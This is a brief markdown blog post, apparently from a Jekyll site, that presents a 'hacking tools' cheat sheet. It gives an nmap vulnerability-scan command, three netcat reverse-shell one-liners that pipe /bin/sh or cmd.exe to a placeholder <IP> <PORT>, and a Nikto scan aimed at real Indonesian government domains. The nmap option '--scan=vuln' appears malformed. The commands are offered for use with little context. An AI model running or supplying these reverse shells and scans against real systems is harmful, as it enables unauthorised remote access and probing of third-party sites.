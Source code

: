 ```yaml
---
layout: post
title:  "Command Hacking Tools for Efficient Penetration Testing"
date:   2016-12-16 14:31:00 +0700
categories: jekyll update blogs blog
comments: false
---
```


# 1. Nmap

> nmap -sV -vv -O -T5 --scan=vuln ip/subnet -oX filename.xml

Scan all service and check operating system with aggresive scanning also with mod scanning vulnerability and make the output xml type with filename.xml (later can be open with zenmap)

# 2. Reverse Shell

> nc <IP> <PORT> -e /bin/sh
> nc <IP> <PORT> -e C:\Windows\System32\cmd.exe
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f

# 3. Nikto

> perl nikto.pl -host kkp.go.id;www.wpi.kkp.go.id -output ~/kkp/random -Format htm

scan target with output html